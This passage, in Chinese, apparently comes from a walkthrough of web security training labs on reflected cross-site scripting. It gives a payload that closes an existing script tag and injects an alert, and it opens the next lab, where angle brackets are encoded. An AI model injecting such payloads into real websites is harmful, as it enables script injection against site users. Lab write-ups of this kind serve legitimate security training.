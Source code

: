 ![9](xss-burp.assets/9.png)

找到位置。

没有过滤，直接闭合前面的script

payload：

```
</script><script>alert(1)</script>
```

#### 10.Reflected XSS into a JavaScript string with angle brackets HTML encoded

`< >`都被过滤了。

![10.1](xss-burp.assets/10.1.png)
